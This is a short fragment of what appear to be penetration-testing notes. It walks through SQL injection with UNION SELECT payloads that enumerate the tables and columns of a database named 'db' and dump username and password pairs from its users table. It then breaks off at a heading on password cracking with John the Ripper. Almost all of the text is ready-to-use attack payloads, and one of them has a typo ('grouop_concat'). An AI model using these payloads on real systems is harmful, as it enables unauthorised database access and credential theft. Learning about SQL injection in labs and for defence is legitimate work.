 ```bash
'UNION SELECT ALL NULL,NULL,grouop_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db' -- -
```

![](../../attachment/54ec8eeb35598b67278383e3f6ab08c8.png)

### Get columns from table

```bash
'UNION SELECT ALL NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' and table_schema = 'db' -- -
```

![](../../attachment/8ffcab9d439890b8c3d0f90279e10942.png)

### Get data from table

```bash
'UNION SELECT ALL NULL,NULL, group_concat(username,":",pwd) from db.users -- -
```

![](../../attachment/fdc7f4d028a52e920ad66cd17e28d690.png)

## Cracking a password with JohnTheRipper
---
